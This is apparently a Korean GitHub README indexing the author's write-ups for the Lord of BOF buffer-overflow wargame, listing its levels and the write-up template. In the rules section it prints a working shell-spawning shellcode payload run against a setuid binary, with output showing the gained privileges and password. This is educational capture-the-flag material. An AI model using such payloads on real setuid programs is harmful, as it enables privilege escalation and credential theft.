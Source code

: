 # The Lord of BOF (일명 LOB)

[[공지] BOF 원정대 서비스를 오픈합니다.](http://www.hackerschool.org/HS_Boards/zboard.php?id=HS_Notice&no=1170881885)

> [BOF-BufferOverflow- 원정대란?]
>
> 비교적 쉬운 BOF 공략 환경인 Redhat 6.2에서부터 궁극의 Fedora 14까지 
>
> 수십개의 레벨을 거쳐가며 BOF 시스템 해킹 실습을 하는 War-Game입니다.

시스템 해킹 쪽 워게임을 처음 풀어봐서 처음 접하는게 많았습니다. 그동안 보안을 공부하면서 왜 이런걸 안했을까 생각도 들었구요... 최대한 풀면서 배운 내용을 나의 것으로 만들려고 노력했습니다. 문제를 풀 때 필요했던 배경지식은 따로 문서를 작성하려고 합니다.

## Levels

- [Level 00, Environment Setting]()
- [Level 01, Gate -> Gremlin]()
- [Level 02, Gremlin -> Cobolt]()
- [Level 03, Cobolt -> Goblin]()
- [Level 04, Goblin -> Orc]()
- [Level 05, Orc -> Wolfman]()
- [Level 06, Wolfman -> Darkelf]()
- [Level 07, Darkelf -> Orge]()
- [Level 08, Orge -> Troll]()
- [Level 09, Troll -> Vampire]()
- [Level 10, Vampire -> Skeleton]()
- [Level 11, Skeleton -> Golem]()
- [Level 12, Golem -> Darkknight]()
- [Level 13, Darkknight -> Bugbear]()
- [Level 14, Bugbear -> Giant]()
- [Level 15, Giant -> Assassin]()
- [Level 16, Assassin -> Zombie]()
- [Level 17, Zombie -> Succubus]()
- [Level 18, Succubus -> Nightmare]()
- [Level 19, Nightmare -> Xavius]()
- [Level 20, Xavius -> Death_knight]()  <- I'm right here
- [Level 21, Death_knight]()

## 문제 풀이 방법

각 계정에는 다음 단계를 의미하는 계정의 `Setuid`가 걸린 프로그램이 있습니다. 간단히 말하자면 `Setuid`가 걸린 프로그램을 어떻게든 이용해 다음 단계 계정의 비밀번호를 알아내 다음 단계로 진행해서 20단계, `Death_knight`까지 진행하면 됩니다.

```sh
[gate@localhost gate]$ id
uid=500(gate) gid=500(gate) groups=500(gate)
[gate@localhost gate]$ ll
total 16
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
-rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c
```

다음 예시는 `gate` 계정으로 로그인해 `id`와 `ll`로 홈 디렉토리를 본 상황입니다. 홈 디렉토리를 보면 `gremlin`이라고 하는 `gremlin` 계정의 `SetGID`와 `SetUID` 권한을 가진 프로그램이 있습니다. 저 프로그램을 BOF로 마음대로 다뤄서 gremlin의 비밀번호를 알아오는 것이 각 단계의 목표입니다.

LOB 환경은 `my-pass`라는 현재 계정의 비밀번호를 출력하는 명령어를 지원합니다. 만약 계정에 접근하게 되었다면 `my-pass`로 비밀번호를 알아내 다음 단계 계정으로 로그인해 진행하는 방식입니다.

```sh
[gate@localhost gate]$ ./gremlin `python -c "print '\x90'*200+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'+'\x90'*36+'\x68\xf9\xff\xbf'"`
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒ᙰ
                                                           ̀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒h▒▒▒
bash$ id
uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)
bash$ my-pass
euid = 501
hello bof world
```

위 예시는 `gremlin` 프로그램에 `/bin/sh`을 실행시키는 쉘코드를 주입하고 BOF를 이용해 실행흐름을 조작해서 쉘코드를 실행시킨 상황입니다. 이 프로그램은 `gremlin` 계정의 `SetUID` 권한을 가지고 있기 때문에 쉘코드 내부에서 `/bin/sh`을 실행시킬때 `gremlin` 계정으로 실행시키게 됩니다. 그래서 `my-pass` 명령어를 치면 `gremlin` 계정의 비밀번호가 나오게 되는 것입니다. 위 예시 처럼 각 단계에 있는 `SetUID`가 걸린 프로그램을 이용해 다음 단계 계정의 비밀번호를 알아가면 됩니다.

## 문서 양식

Writeup은 다음과 같은 항목으로 구성했습니다:

- 문제 소스
- 분석
  - 문제 파일 디스어셈블 코드
  - 예상되는 스택 구조
  - 관찰한 스택 구조
- Exploit
  - 공격 방법론
  - 쉘코드
  - 페이로드 구조
- 결과

## 다양한 배경지식

문제풀면서 새로 배운 것들도 문서화를 시켜야 겠네요 :smile: